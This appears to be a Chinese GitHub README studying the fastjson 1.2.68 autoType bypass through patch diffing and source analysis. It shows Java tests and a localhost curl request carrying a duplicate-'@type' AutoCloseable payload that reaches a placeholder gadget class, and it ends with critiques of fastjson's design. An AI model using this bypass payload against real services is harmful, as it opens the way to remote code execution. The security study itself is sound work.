



fastjson-study

## 背景

fastjson 1.2.68 版本爆出高危漏洞，本次通过寻找改漏洞触发机制来学习 fastjson 的安全机制

[安全漏洞通告](https://github.com/alibaba/fastjson/wiki/security_update_20200601)

## bug 追踪

### 查看 bug 如何被修复



升级到 *.sec10 可解决问题

### 下载代码查看修改点

1.2.8 到 1.2.8.sec10 改动较小，增加了一个 denyHashCodes，三个 exceptClass (并将 exceptClass 替换为 exceptHash)

下载 source.jar 解压获取源码 (已解压放到 fastjson-source-code 文件夹下)

[fastjson-1.2.8-sources.jar](https://repo1.maven.org/maven2/com/alibaba/fastjson/1.2.8/fastjson-1.2.8-sources.jar)

[fastjson-1.2.8.sec10-sources.jar](https://repo1.maven.org/maven2/com/alibaba/fastjson/1.2.8.sec10/fastjson-1.2.8.sec10-sources.jar)

1. 在 ParserConfig.denyHashCodes 中添加了 0xD59EE91F0B09EA01L



通过广大网友的暴力破解 [fastjson-blacklist](https://github.com/LeadroyaL/fastjson-blacklist)

得到 0xD59EE91F0B09EA01L 为 oracle.jms.AQ

但黑名单需要开启 autoType 才能使用，所以该重大漏洞大概率与 oracle.jms.AQ 无关

2. exceptClass 替换为 exceptHash 并添加了3个



通过源码分析，使用 TypeUtils.fnv1a_64 遍历 java 标准库的类名得到新增加的 3个 exceptHash 为

- java.lang.Runnable
- java.lang.Readable
- java.lang.AutoCloseable

能绕过 autoType 限制大概率于这三个类有关

# 如何绕过 autoType 限制

在网上查阅资料得到可以通过两个 @type 标记绕过 autoType 限制，具体操作如下

```java
//see FastjsonTest.test1
//AutoCloseableBadCode 实现了 AutoCloseable 接口
String jsonString = "{\"@type\":\"java.lang.AutoCloseable\",\"@type\":\"io.github.tanghuibo.fastjsontest.badcode.AutoCloseableBadCode\",\"msg\":\"haha\"}";
Object result = JSON.parse(jsonString);
log.info("result className {}", result.getClass().getName());
// ==> result className  io.github.tanghuibo.fastjsontest.badcode.AutoCloseableBadCode
```

json 串中有两个相同的 key @type 反序列化时不会报错吗？答案时不会。

```java
//see FastjsonTest.test1
log.info("result {}", JSON.parseObject("{\"a\": 1, \"a\":2}"));
// ==> result {"a":2}
```

没有开启 autoType 时，什么情况下可以使用 @type ?

通过分析 ParserConfig.checkAutoType 的代码得:

1. 指定期望类，且 @type 为期望类或其子类

```java
//set FastjsonTest.test6
String jsonString = "{\"@type\":\"io.github.tanghuibo.fastjsontest.badcode.AutoCloseableBadCode\",\"msg\":\"haha\"}";
Object result = JSON.parseObject(jsonString, AutoCloseable.class);
log.info("result className {}", result.getClass().getName());
// ==> result className io.github.tanghuibo.fastjsontest.badcode.AutoCloseableBadCode
```

2. 类被 fastjson 反序列化过 (被 TypeUtils 缓存过)

```java
//see FastjsonTest.test7
String jsonString = "{\"@type\":\"io.github.tanghuibo.fastjsontest.badcode.AutoCloseableBadCode\",\"msg\":\"haha\"}";
//被反序列过
JSON.parseObject("{}", AutoCloseableBadCode.class);
Object result = JSON.parseObject(jsonString);
log.info("result className {}", result.getClass().getName());
```

添加的三个期望类中只有 AutoCloseable 被 TypeUtils 缓存过，所以能绕过 autoType 的高危漏洞多半与其有关

通过代码分析，两个 @type 中，在效果上等价于:

```java
//运行到第一个 @type，告知 fastjson 要反序列 AutoCloseable，AutoCloseable 被缓存过，允许反序列化，期望类变更为 AutoCloseable
JSON.parseObject"{\"@type\":\"java.lang.AutoCloseable\"}");
//运行到第二个 @type，告知 fastjson 要反序列 AutoCloseableBadCode, AutoCloseableBadCode 是 AutoCloseable 的实现，允许反序列化，期望类变更为 AutoCloseableBadCode
Object result = JSON.parseObject("\"@type\":\"io.github.tanghuibo.fastjsontest.badcode.AutoCloseableBadCode\",\"msg\":\"haha\"}", AutoCloseable.class);
```

绕过此次漏洞是由该方式造成的，那么该类需要有如下特征

1. 拥有公开的无参构造方法
2. getXXX 或 setXXX 或无参构造方法能触发危险操作
3. 实现 AutoType
4. 不在 fastjson 的黑名单中
5. 在 java 标准库中或常用的第三方库中

# 利用漏洞的方法

以下构造了一个相对比较常见的常见

条件: 
1. 使用 spring mvc，且反序列化方式使用 fastjson (常见)

```java
@Bean
public HttpMessageConverter configureMessageConverters() {
    FastJsonHttpMessageConverter converter = new FastJsonHttpMessageConverter();
    FastJsonConfig config = new FastJsonConfig();
    converter.setFastJsonConfig(config);
    converter.setDefaultCharset(StandardCharsets.UTF_8);
    List<MediaType> mediaTypeList = new ArrayList<>();
    mediaTypeList.add(MediaType.APPLICATION_JSON);
    converter.setSupportedMediaTypes(mediaTypeList);
    return converter;
}
```

2. 拥有一个使用 @RequestBody 的 Controller (常见)

```java
@PostMapping("case1")
public TestCase1Vo test1(@RequestBody TestCase1Request request) {
    TestCase1Vo vo = new TestCase1Vo();
    vo.setMessage(request.getMessage());
    return vo;
}
```

3. 拥有满足高危漏洞的类(比较难找，这里用 AutoCloseableBadCode 代替)

正常请求:

```bash
curl --location --request POST 'http://127.0.0.1:8080/test/case1' --header 'Content-Type: application/json' --data-raw '{"msg": "data1"}'
```

触发漏洞请求

```bash
curl --location --request POST 'http://127.0.0.1:8080/test/case1' --header 'Content-Type: application/json' --data-raw '{"data": {"@type":"java.lang.AutoCloseable","@type":"io.github.tanghuibo.fastjsontest.badcode.AutoCloseableBadCode","name":"test"}, "msg": "test"}'
```

此时就会执行 AutoCloseableBadCode.setName (目标类可以没有 setData 和 getData 方法)

# 总结

个人认为 fastjson 不太合理的点:

1. 缺少基本参数校验: 同一层级出现两个相同 key 不属于标准 json 格式，应当报错
2. API未按危险等级划分: JSON.parse、JSON.parseObject 都能在默认配置下对 @type 生效，应当提供默认不支持 @type 的方法(safe 模式)
3. 指定期望类情况下依旧下不对是否有该参数进行校验
4. 用户可能会在不知情的情况下对某些类进行反序列化，被反序列过的类再次反序列化校验不严格

